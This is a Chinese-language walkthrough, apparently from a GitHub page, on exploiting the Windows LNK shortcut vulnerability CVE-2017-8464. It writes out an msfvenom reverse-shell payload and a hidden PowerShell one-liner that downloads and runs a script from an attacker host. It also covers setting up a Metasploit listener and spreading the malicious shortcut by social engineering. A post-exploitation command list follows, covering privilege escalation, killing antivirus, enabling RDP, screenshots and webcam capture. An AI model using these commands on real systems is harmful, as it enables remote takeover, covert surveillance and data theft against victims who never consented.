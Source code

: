 # 一、 什么是 CVE-2017-8464：

说明：

2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危

传播的载体一般是LNK ，LNK是windows系统内应用程序快捷方式文件的文件类型后缀名。

危害：

被攻击机插入存在攻击lnk的U盘后会反弹shell，哪怕是被隔离的内网，也可以在不上网的情况下被攻击。

# 二、环境准备：

1 可复现的操作系统版本：

* Microsoft Windows 10 Version 1607 for 32-bit Systems
* Microsoft Windows 10 Version 1607 for x64-based Systems
* Microsoft Windows 10 for 32-bit Systems
* Microsoft Windows 10 for x64-based Systems
* Microsoft Windows 10 version 1511 for 32-bit Systems
* Microsoft Windows 10 version 1511 for x64-based Systems
* Microsoft Windows 10 version 1703 for 32-bit Systems
* Microsoft Windows 10 version 1703 for x64-based Systems
* Microsoft Windows 7 for 32-bit Systems SP1
* Microsoft Windows 7 for x64-based Systems SP1
* Microsoft Windows 8.1 for 32-bit Systems
* Microsoft Windows 8.1 for x64-based Systems
* Microsoft Windows RT 8.1

2 可复现的服务器系统版本：

* Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
* Microsoft Windows Server 2008 R2 for x64-based Systems SP1
* Microsoft Windows Server 2008 for 32-bit Systems SP2
* Microsoft Windows Server 2008 for Itanium-based Systems SP2
* Microsoft Windows Server 2008 for x64-based Systems SP2
* Microsoft Windows Server 2012
* Microsoft Windows Server 2012 R2
* Microsoft Windows Server 2016

3 kali操作系统

# **三、利用原理** ：

创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机中病毒，并且被远控。

# 四、实战利用

启动MSF

终端内输入：msfconsole

开始利用：

#### 1、使用MSF创建一个后门

msf内输入：

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 -f psh-reflection>/var/www/html/link.ps1

#### 2、在kali下开启apache2

终端内输入：service apache2 start

#### 3、通过社会学进行快捷方式传播

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.204.135/link.ps1');test.ps1"

![1641972171811](一、 什么是 CVE-2017-8464：.assets/1641972171811.png) 

![1641972183309](一、 什么是 CVE-2017-8464：.assets/1641972183309.png)

#### 4 回到MSF终端配置监听

msf内输入：  use exploit/multi/handler

#### 5 配置payload

set payload windows/x64/meterpreter/reverse_tcp

![1641972198597](一、 什么是 CVE-2017-8464：.assets/1641972198597.png)

msf中输入 ： show options   配置payload

![1641972211876](一、 什么是 CVE-2017-8464：.assets/1641972211876.png)

设置 LHOST  和  LPORT

maf中输入：

5.1  set lhost `<当前机器ip>` 设置 LHOST

5.2  set lport  `<未被占用的端口>`  设置 LPORT

![1641972223277](一、 什么是 CVE-2017-8464：.assets/1641972223277.png)

5.3  最后在 输入 show options 查看配置是否生效

![1641972233527](一、 什么是 CVE-2017-8464：.assets/1641972233527.png)

#### 6、执行监听

msf中输入 ： run 或者  exploit

![1641972244295](一、 什么是 CVE-2017-8464：.assets/1641972244295.png)

进入靶机执行我们在靶机上创建的快捷方式

![1641972183309](一、 什么是 CVE-2017-8464：.assets/1641972183309.png)

稍等片刻获取到meterpreter

![1641972268406](一、 什么是 CVE-2017-8464：.assets/1641972268406.png)

# 五、后渗透

1、通过快捷方式执行程序

meterpreter中输入  shell

![1641972283719](一、 什么是 CVE-2017-8464：.assets/1641972283719.png)

发现shell显示有乱码

shell内输入  chcp 65001

![1641972295944](一、 什么是 CVE-2017-8464：.assets/1641972295944.png)

然后进入desktop目录（这个是win的桌面）

根据实际情况拼路径

shell 里输入：cd users/mb/desktop

![1641972307789](一、 什么是 CVE-2017-8464：.assets/1641972307789.png)

2 更多操作

查看进程：ps
查看当前进程号：getpid
查看系统信息：sysinfo
查看目标机是否为虚拟机：run post/windows/gather/checkvm
查看完整网络设置：route
查看当前权限：getuid
自动提权：getsystem
关闭杀毒软件：run post/windows/manage/killav
启动远程桌面协议：run post/windows/manage/enable_rdp
列举当前登录的用户：run post/windows/gather/enum_logged_on_users
查看当前应用程序：run post/windows/gather/enum_applications
抓取目标机的屏幕截图：load espia ； screengrab
抓取摄像头的照片：webcam_snap
查看当前处于目标机的那个目录：pwd
查看当前目录：getlwd